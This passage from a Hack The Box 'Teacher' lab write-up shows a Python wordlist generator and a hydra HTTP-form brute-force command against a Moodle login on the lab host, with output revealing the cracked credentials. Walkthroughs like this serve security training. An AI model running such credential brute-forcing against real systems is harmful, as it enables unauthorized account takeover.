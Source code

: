 ![](/assets/images/htb-writeup-teacher/moodle.png)

Guest login is enabled but we don't have access to anything useful with this account.

We got a partial password from the `5.png` file but we're missing the last letter. I used the following script to generate a wordlist:

```python
f = open('pwd', 'w')
for i in range (0,127):
	f.write('Th4C00lTheacha{}\n'.format(chr(i)))
```	

Then using hydra we can bruteforce the `giovanni` account. We'll match on `Set-Cookie` as a positive response since the cookie is only set when we submit the correct credentials.

```
# hydra -I -l giovanni -P pwd.txt 10.10.10.153 http-post-form "/moodle/login/index.php:username=^USER^&password=^PASS^:S=Set-Cookie"
Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2018-12-01 21:37:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 128 login tries (l:1/p:128), ~8 tries per task
[DATA] attacking http-post-form://10.10.10.153:80//moodle/login/index.php:username=^USER^&password=^PASS^:S=Set-Cookie
[80][http-post-form] host: 10.10.10.153   login: giovanni   password: Th4C00lTheacha#
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2018-12-01 21:38:06
```

We found the password: `Th4C00lTheacha#`

We can now log in to the Moodle webpage with `giovanni / Th4C00lTheacha#`:
